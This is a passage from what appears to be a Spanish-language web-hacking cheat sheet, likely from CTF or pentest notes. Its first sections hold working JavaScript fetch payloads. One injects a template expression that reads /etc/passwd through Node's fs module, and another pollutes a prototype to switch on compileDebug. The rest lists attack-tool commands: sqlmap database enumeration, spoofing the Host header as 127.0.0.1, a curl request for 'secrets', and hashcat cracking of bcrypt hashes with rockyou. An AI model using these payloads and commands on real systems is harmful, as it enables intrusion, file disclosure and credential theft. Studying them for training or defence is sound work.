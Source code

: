 ```javascript
fetch('/api/submit', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        'artist.name': "Haigh #{require('fs').readFileSync('/etc/passwd').toString()}"
    })
});
```

### 🔑 Activar modo Debug

```javascript
fetch('/api/submit', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        'artist.__proto__.compileDebug': true
    })
});
```

---

## 5. Comandos útiles para herramientas

### 🔑 SQLMap

```bash
sqlmap -u "http://target.com/vulnerable.php?id=1" --dbs
```

### 🔑 Burp Suite

- Interceptar tráfico.
    
- Modificar `Host` para emular origen `127.0.0.1`.
    

### 🔑 Curl

```bash
curl -X POST http://localhost:8080/api/getfacts -H "Content-Type: application/json" -d '{"type": "secrets"}'
```

### 🔑 Hashcat

- **Descripción:** Herramienta para recuperación de contraseñas mediante ataques de fuerza bruta y diccionarios.
    
- **Ejemplo de uso:**
    

```
hashcat -a 0 -m 3200 bcrypt_hash_file rockyou.txt
```
